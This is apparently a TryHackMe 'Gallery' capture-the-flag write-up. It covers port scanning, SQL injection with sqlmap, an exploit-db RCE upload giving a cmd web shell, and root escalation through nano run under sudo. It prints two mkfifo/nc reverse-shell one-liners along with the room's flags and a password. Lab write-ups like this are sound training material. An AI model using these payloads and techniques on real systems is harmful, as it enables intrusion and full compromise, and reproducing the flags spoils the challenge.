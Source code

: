 # Gallery THM writeup
<a href = "https://tryhackme.com/room/gallery666"> https://tryhackme.com/room/gallery666 </a>



<h3>1. Question: How many ports are open?</h3>  <br>
Lets start with an nmap scan to get the number of open ports and also i may get a valueable port thats open in the server!
<br>

```
$ nmap 10.10.4.212          
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-17 10:12 EDT
Nmap scan report for 10.10.4.212
Host is up (0.056s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 1.17 seconds
```

The server have 3 open ports, now i got the answer to the first question, **3**

<hr>

<h3>2. Question: What's the name of the CMS?</h3>
<br>
Opening the website on port 80, i get an apache ubuntu default page, this doesn't help much.. 
but i noticed that there is another web server running on port 8080! Lets check it!

Now the website provided us a login page and with the name of the CMS! **Simple Image Gallery**

<hr>

<h3>3. Question: What's the hash password of the admin user? </h3>
When sending a login request, i noticed that i get a suspicious response:

```
{"status":"incorrect","last_qry":"SELECT * from users where username = 'admin' and password = md5('test') "}
```
This gave me an idea that the Login page maybe got some SQL injection vulnerability!
Running sqlmap i can see it detected that the username paramater is vulnerable to an sql injection attack, now i could easily get the admin's passwords hash.
After some time, sqlmap found the hash of the password
```
$ sqlmap -r req.txt --dump
....
+----------------------------------+
| password                         |
+----------------------------------+
| a228b12a08b6527e7978cbe5d914531c |
+----------------------------------+
```

<hr>
<h3>4. Question: What's the user flag?</h3>
To get the user flag, i have to gain a shell on the system.
<br>
I searched for the CMS name and found a possible RCE exploit on exploit-db:
<a href = "https://www.exploit-db.com/exploits/50214"> https://www.exploit-db.com/exploits/50214 </a> <br>
I downloaded this to my machine and i ran it. <br><br>
The exploit uploaded a file to the server, which contained a ?cmd= paramter<br>

Run netcat in listener mode, so the remote host could connect to my Kali:<br>
```
$ ncat -nlvp 8001
```

I pasted my netcat script in the cmd parameter and i successfully got a more stable netcat reverse shell!
```
http://10.10.191.82/gallery/uploads/1760716080_TagogdgiydphbhaodrhLetta.php?cmd=rm+%2Ftmp%2Ff%3Bmkfifo+%2Ftmp%2Ff%3Bcat+%2Ftmp%2Ff%7Cbash+-i+2%3E%261%7Cnc+<Your ip>+8001+%3E%2Ftmp%2Ff
```

<br>
I got shell as www-data, and found the first flag in mike's home directory, but only the user "mike" can read the user.txt, so i have to find a way to be mike!

```
www-data@ip-10-10-191-82:/home/mike$ ls -l
ls -l
total 12
drwx------ 2 mike mike 4096 May 24  2021 documents
drwx------ 2 mike mike 4096 May 24  2021 images
-rwx------ 1 mike mike   32 May 14  2021 user.txt
```

I downloaded linpeas, and ran it. While i was checking the output i noticed that when mike tried to use the command "sudo -l"
he forgot to hit enter, and revealed his password in the bash history file:
```
╔══════════╣ Searching passwords in history files
/var/backups/mike_home_backup/.bash_history:sudo -lb3stpassw0rdbr0xx
/var/backups/mike_home_backup/.bash_history:sudo -l
```

Now i could login to mike's account with the found password: **"b3stpassw0rdbr0xx"** and read the user.txt!
```
mike@ip-10-10-191-82:~$ cat user.txt
THM{af05cd30bfed67849befd546ef}
```

<hr>

<h3>5. Question: What's the root flag?</h3>
I ran "sudo -l" and i noticed there is a program that i can run as root without password

```
mike@ip-10-10-191-82:/opt$ sudo -l
Matching Defaults entries for mike on ip-10-10-191-82:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on ip-10-10-191-82:
    (root) NOPASSWD: /bin/bash /opt/rootkit.sh
```
<br><br>
What's inside of opt/rootkit.sh?
```
mike@ip-10-10-191-82:/opt$ cat rootkit.sh
#!/bin/bash

read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;

# Execute your choice
case $ans in
    versioncheck)
        /usr/bin/rkhunter --versioncheck ;;
    update)
        /usr/bin/rkhunter --update;;
    list)
        /usr/bin/rkhunter --list;;
    read)
        /bin/nano /root/report.txt;;
    *)
        exit;;
esac
```
Aha, so if i run it as root, and write "read" in the input box (which will the sh script provide) it will open a nano UI as root!<br>
So basically if you have nano run as root, you can do anything, because nano has a feature that lets you to execute system commands
<br>
<br>
So press CTRL + R and then CTRL + X in nano's UI, this will allow us to execute programs, as root because nano is run as root
<img src = "cmd.png"> 
<br>
I want to get a more stable shell, so i open a netcat session
```
$ ncat -nlvp 8002
```
So now execute this code in the prompt nano gave us:
```
rm /tmp/f; mkfifo /tmp/f; nc <your_ip> 8002 < /tmp/f | /bin/sh >/tmp/f 2>&1
```
Checking back on the netcat listener, it opened a shell as root!
```
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on [::]:8002
Ncat: Listening on 0.0.0.0:8002
Ncat: Connection from 10.10.31.139:51202.

root@ip-10-10-31-139:/home/mike# whoami
root
```
And read the root.txt to get the flag for the final answer
```
root@ip-10-10-31-139:/home/mike# cat /root/root.txt
THM{ba87e0dfe5903adfa6b8b450ad7567bafde87}
```
